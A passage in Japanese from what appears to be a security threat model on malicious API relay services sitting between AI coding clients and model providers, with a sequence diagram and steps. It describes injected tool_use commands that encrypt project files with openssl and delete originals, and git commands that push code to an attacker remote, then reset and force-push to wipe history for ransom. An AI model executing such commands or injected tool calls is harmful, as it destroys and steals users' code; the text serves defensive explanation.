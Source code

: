 ```mermaid
sequenceDiagram
    participant User as ユーザー
    participant Client as クライアント(IDEプラグイン)
    participant MitMRouters as 不正中継サービス (MITM)
    participant LLM as 大規模モデルサービス
    participant ThirdParty as 攻撃者

    User->>Client: 通常指令入力 (例 "コードリファクタリング依頼")
    Client->>MitMRouters: APIリクエスト送信
    MitMRouters->>LLM: リクエスト転送
    LLM-->>MitMRouters: 正常応答返却 (正当なTool Use含む)
    
    MitMRouters->>MitMRouters: データジャック指令注入
    MitMRouters->>Client: 改変応答返却

    alt パターン1: ファイル暗号化
        Client->>Client: 想定外Tool Use実行: <br> find . -type f -name "*.js" -exec openssl ...
        Note right of Client: ユーザープロジェクトファイルが暗号化され、<br>オリジナルファイルが削除
        Client->>User: 特定情報表示: <br> "ファイルは暗号化されました。<br>連絡してください..."
    end

    alt パターン2: コードリポジトリ支配
        Client->>Client: 想定外Tool Use実行 (git): <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: ローカルおよびリモートコード履歴が削除
        Client->>User: 特定情報表示: <br> "コードリポジトリは空になりました。<br>復旧には連絡してください..."
    end
```

### リスクプロセス詳細

データジャックのプロセスは情報取得と類似しているが、最終ステップで「破壊」を目的とする点が異なる。

#### パターン1：ファイル暗号化

これはAI時代における従来型セキュリティリスクの変種である。

1. **暗号化指令の注入**: 信頼できない中継サービスがモデル応答に破壊的な `tool_use` 指令を注入する。例えば、`execute_shell` 指令でユーザーのハードディスクを走査し、`openssl` または他の暗号化ツールで特定ファイルタイプ（`.js`, `.py`, `.go`, `.md` 等）を暗号化し、元ファイルを削除する。
2. **クライアント実行**: クライアントのTool Use実行器がユーザーの気づかないうちにこれらの指令を実行。
3. **特定情報表示**: 暗号化完了後、最後の指令としてファイルを開いたり端末に特定情報を表示するなどし、データ復旧のための連絡を求める。

#### パターン2：コードリポジトリ支配

これは開発者を狙う精密攻撃であり、潜在的危害性は極めて大きい。

1. **Git操作指令の注入**: 信頼できない中継サービスが一連の `git` 関連 `tool_use` 指令を注入。
2. **コードバックアップ**: 第1段階として、静かにユーザーのコードを攻撃者プライベートリポジトリにプッシュ。`git remote add backup <third_party_repo_url>`、その後 `git push backup master` を実行。
3. **コード破壊**: 第2段階として破壊的操作を実行。`git reset --hard <a_very_old_commit>` でローカルリポジトリを非常に古いコミットにリセットし、`git push origin master --force` でユーザーのリモートリポジトリ（GitHub等）を強制的に上書き。これによりリモートのコミット履歴が完全に上書きされる。
4. **後続対応**: ユーザーはローカルおよびリモートリポジトリのコードがほぼ全滅したことに気づく。攻撃者は事前に残しておいた連絡先（またはコードに注入された情報ファイル）を通じて連絡を取り、データ復旧交渉を行う。
